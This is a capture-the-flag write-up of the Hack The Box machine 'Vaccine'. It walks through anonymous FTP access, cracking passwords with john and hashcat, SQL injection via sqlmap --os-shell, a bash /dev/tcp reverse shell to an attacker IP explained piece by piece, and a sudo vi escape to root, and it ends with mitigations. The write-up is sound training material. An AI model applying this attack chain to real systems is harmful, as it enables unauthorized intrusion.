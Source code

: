 +++
title = "Hack The Box - Vaccine"
date = 2025-05-30

[taxonomies]
tags = ["hackthebox", "FTP", "SQL", "sql-injection", "reverse-shell", "privesc"]
+++

[![TODO](/pictures/articles/htb/vaccine/00-cover.png)](https://www.hackthebox.com/achievement/machine/447801/289)

Vaccine is a Linux machine built to demonstrate the importance of enumeration,
and the dangers of chaining multiple vulnerabilities together such as SQL
injection, password hash cracking, anonymous guest access and session cookie
stealing.


<!-- more -->


## Enumeration

<!-- Enumeration {{{-->

The [nmap](https://nmap.org/) scan reveals the target machine has port 21
([FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol)),
port 22 ([SSH](https://en.wikipedia.org/wiki/Secure_Shell)), and
port 80 ([HTTP](https://en.wikipedia.org/wiki/HTTP)) open.

![a](/pictures/articles/htb/vaccine/01-nmap.png)

- `-sC`: Script scan
- `-sV`: Version detection

The webpage only presents a single login page which, for now, cannot be
bypassed.

![a](/pictures/articles/htb/vaccine/02-login.png)

There's also an FTP service running with the target machine that is allowing
anonymous login. The username should be `anonymous` and the corresponding
password is arbitrary.

![a](/pictures/articles/htb/vaccine/03-ftp-connect.png)

After logging in, the `dir` command can be used to list the available files.

There's only one file on the share, named `backup.zip`, which can be retrieved
using the `get backup.zip` command.

To exit the FTP session, issue the `exit` command.

![a](/pictures/articles/htb/vaccine/04-ftp-get.png)

`backup.zip` then needs to be extracted however, it is password-protected.

![a](/pictures/articles/htb/vaccine/05-unzip.png)

To crack the password, its hash needs to be extracted first from the encrypted
ZIP archive using `zip2john`.

![a](/pictures/articles/htb/vaccine/06-zip2john.png)

Then the extracted hash can be checked against the famous `rockyou` wordlist
using [John the Ripper](https://www.openwall.com/john/).

`john` shows that the password to unlock the ZIP is `741852963`.

![a](/pictures/articles/htb/vaccine/07-john-hashcrack.png)

The ZIP contains 2 files that can be investigated further.

![a](/pictures/articles/htb/vaccine/08-unzip.png)

[grep](https://en.wikipedia.org/wiki/Grep)ping `index.php` for `passw` reveals
a password hash stored for the `admin` user.

The found hash can be stored in a file for later use.

![a](/pictures/articles/htb/vaccine/09-pass-hash.png)

[hashID](https://psypanda.github.io/hashID/) confirms that it is indeed most
likely an [MD5](https://en.wikipedia.org/wiki/MD5) hash.

![a](/pictures/articles/htb/vaccine/10-hashid.png)

This hash can then be checked against the `rockyou` wordlist using `hashcat`.

![a](/pictures/articles/htb/vaccine/11-hashcat.png)

- `-a 0`: Dictionary attack mode
- `-m 0`: MD5 hash type

`hashcat` has cracked the hash and found the password `qwerty789`.

![a](/pictures/articles/htb/vaccine/12-hashcat-result.png)

It is now possible to log in to the website and enumerate its dashboard.

![a](/pictures/articles/htb/vaccine/13-login.png)

<!-- }}} -->

## Foothold

<!-- Foothold {{{-->

Upon running a search query, it reveals that the dashboard may actually be
connected with a backend database.

![a](/pictures/articles/htb/vaccine/14-test-query.png)

Intercepting the search query request with Burp Suite shows that there is a PHP
Session ID (`PHPSESSID`) being passed to the database in a form of a cookie.

![a](/pictures/articles/htb/vaccine/15-cookie.png)

The search query can be investigated with
[sqlmap](https://github.com/sqlmapproject/sqlmap) if it is SQL injectable.

![a](/pictures/articles/htb/vaccine/16-sqlmap.png)

- `u`: Target URL
- `--cookie`: HTTP header cookie value

`sqlmap` in its output displays multiple possible payloads to perform an
SQL injection.

To exploit the vulnerability, `sqlmap` should be called again but this time with
the additional `--os-shell` option to conclude in a shell.

![a](/pictures/articles/htb/vaccine/17-sqlmap-res.png)

The spawned `os-shell` is not so stable so it needs an additional payload
to make it work better.

To receive this incoming connection, a [netcat](https://en.wikipedia.org/wiki/Netcat)
should be set up listening an arbitrary port (e.g. `1234`).

![a](/pictures/articles/htb/vaccine/18-netcat.png)

The following Bash one-liner will initiate a connection from target back to the
attacker machine.

![a](/pictures/articles/htb/vaccine/19-payload.png)

- `bash`: Invoke a Bash shell
- `-c`: Execute the command that follows
- `bash -i`: Invoke another Bash shell instance
- `>&`: Redirect `stdout` and `stderr` to the specified location
- `/dev/tcp/10.10.15.127/1234`: Initiate a TCP connection to the specified
  address
- `0>&1`: Redirect `stdin` to `stdout`

The [netcat](https://en.wikipedia.org/wiki/Netcat)listener has successfully
received the connection resulting in a reverse shell.

![a](/pictures/articles/htb/vaccine/20-reverse-shell.png)

This shell isn't really stable either, it is disconnecting randomly, but it can
be utilized to look around on the system and retrieve the user flag.

![a](/pictures/articles/htb/vaccine/21-user-flag.png)

<!-- }}} -->

## Privilege escalation

<!-- Privilege escalation {{{-->

While exploring the web server's dedicated directories,
a password stored in clear text was discovered in a PHP file.

![a](/pictures/articles/htb/vaccine/22-user-password.png)

`sudo -l` shows that the current `postgres` user can launch `/bin/vi` as sudo to
edit a designated configuration file (`pg_hba.conf`).

![a](/pictures/articles/htb/vaccine/23-sudo-l.png)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)
there are multiple ways to break out from restricted environments by spawning an
interactive system shell.

One way is to open the configuration file with `vi` as `sudo`.

![a](/pictures/articles/htb/vaccine/24-vi-open.png)

Set the shell to `/bin/sh`.

![a](/pictures/articles/htb/vaccine/25-vi.png)

And then issue the `shell` command.

![a](/pictures/articles/htb/vaccine/26-vi.png)

After executing the commands, a `root` shell is spawned and the `root` flag can
be retrieved from the `/root` directory.

![a](/pictures/articles/htb/vaccine/27-root-flag.png)

By achieving root privileges, the machine is
[pwned](https://www.hackthebox.com/achievement/machine/447801/289).

<!-- }}} -->

## Mitigation

<!-- Mitigation {{{-->

1. Secure FTP Service
    - Disable anonymous logins and require authentication
    - Replace FTP with more secure protocols such as STFP

2. Web Application Security
    - Implement multi factor authentication mechanisms

3. SQL injection
    - Validate and sanitize all user inputs
    - Use prepared statements and parameterized queries to separate SQL code
    from data

4. Reverse Shell Prevention
    - Monitor and restrict outbound network traffic for patterns indicating
    reverse shell attacks

5. Sudo privileges
    - Implement the principle of least privilege when assigning sudo rights

6. Restrict configuration files
    - Ensure configuration files are accessible only for authorized users

7. Secure Shell Access
    - Restrict shell commands that can be executed
    - Monitor shell activity for suspicious behaviour

<!-- }}} -->
